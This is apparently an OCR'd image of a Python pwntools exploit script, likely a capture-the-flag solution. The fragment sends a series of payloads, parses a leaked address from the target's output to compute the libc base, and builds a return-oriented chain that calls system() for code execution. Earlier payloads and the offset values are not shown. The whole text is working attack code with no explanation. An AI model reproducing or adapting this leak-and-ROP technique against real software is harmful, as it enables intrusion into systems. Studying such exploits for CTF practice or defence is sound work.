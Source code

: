 ```python
p.send(payload3)
sleep(0.3)
p.send(payload4)
sleep(0.3)
p.send(payload5)
sleep(0.3)
p.send(payload6)
sleep(0.3)
p.send(payload7)
sleep(0.3)
p.send(payload8)
sleep(0.3)
p.send(payload9)
sleep(0.3)
p.send(payload10)





p.recvuntil(b'0,')
addr_lo = p.recvuntil(b's')
addr_lo = addr_lo.strip()
addr_lo = addr_lo.strip(b's')
addr_lo = addr_lo.strip()

p.recvuntil(b'0,')
addr_hi = p.recvuntil(b's')
addr_hi = addr_hi.strip(b's')
addr_hi = addr_hi.strip()

addr_lo = addr_lo.decode()
print(addr_lo)
addr_lo = int(addr_lo)
addr_lo = pack('i', addr_lo)
addr_hi = addr_hi.decode()
print(addr_hi)
addr_hi = int(addr_hi)
addr_hi = pack('i', addr_hi)
addr = addr_lo + addr_hi
addr = u64(addr)
addr_libc = addr - 0x211700 + 0xb000 + 0x2000
print(hex(addr_libc))



sleep(1)

payload11 = p32(18) + 130*b'a'

addr_gadget = off_gadget + addr_libc
addr_system = off_system + addr_libc
addr_str = off_str + addr_libc

payload12 = p64(addr_gadget) + p64(addr_str) + p64(addr_system)

payload13 = 354 * p8(0)
p.recvuntil(b'e:\n')

sleep(1)
p.send(payload11)
sleep(0.3)
p.send(payload12)
```